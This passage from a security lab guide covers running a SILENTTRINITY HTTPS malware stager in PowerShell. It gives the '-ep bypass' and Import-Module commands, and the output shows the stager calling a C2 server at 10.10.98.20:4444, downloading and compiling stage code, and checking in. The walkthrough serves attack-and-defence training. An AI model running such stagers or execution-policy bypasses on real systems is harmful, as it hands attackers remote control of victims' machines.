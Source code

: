 ### Execution of HTTPS Stager
In PowerShell, run the following command to execute the malware stager for Silent Trinity.

![PowershellInput][PowerShellInput]
```powershell
powershell -ep bypass
Import-Module .\Downloads\stager.ps1
```
![PowershellOutput][PowerShellOutput]

```powershell
C:\Users\itaadmin.labs> powershell -ep bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\taadmin.labs> Import-Module .\Downloads\stager.ps1
[+] URLS: https://10.10.98.20:4444
[*] Attempting HTTP POST to https://10.10.98.20:4444/162f4b13-6181-4d7f-988f-4da6c43fc307
[-] Attempt #1
[*] Attempting HTTP GET to https://10.10.98.20:4444/162f4b13-6181-4d7f-988f-4da6c43fc307
[-] Attempt #1
[*] Downloaded 569104 bytes
        [-] 'Boo.Lang.Compiler.dll' was required...
        [+] 'Boo.Lang.Compiler.dll' loaded...
        [-] 'Boo.Lang.dll' was required...
        [+] 'Boo.Lang.dll' loaded...

[*] Compiling Stage Code
        [-] 'Boo.Lang.Extensions.dll' was required...
        [+] 'Boo.Lang.Extensions.dll' loaded...
        [-] 'System.dll' was required...
        [+] 'System.dll' loaded...
        [-] 'System.Core.dll' was required...
        [+] 'System.Core.dll' loaded...
        [-] 'System.Web.Extensions.dll' was required...
        [+] 'System.Web.Extensions.dll' loaded...
        [-] 'Boo.Lang.Parser.dll' was required...
        [+] 'Boo.Lang.Parser.dll' loaded...
        [-] 'Microsoft.VisualBasic.Devices.dll' was required...
        [-] 'Microsoft.VisualBasic.dll' was required...
        [+] 'Microsoft.VisualBasic.dll' loaded...
[+] Compilation Successful!
[*] Executing
sYJwhAelHQ CheckIn
```
After the malware stager has been executed, continue on to the next phase of the lab.

![][Div2]


  [L0200]: ../L0200/
  [L0250]: ../L0250/
  [L0310]: ../L0310/
  [L0311]: ../L0311/
  [L0320]: ../L0320/
  [L0330]: ../L0330/
  [L0340]: ../L0340/
  [L0350]: ../L0350/
  [L1120]: ../L1120/
  [L1130]: ../L1130/
  [L1140]: ../L1140/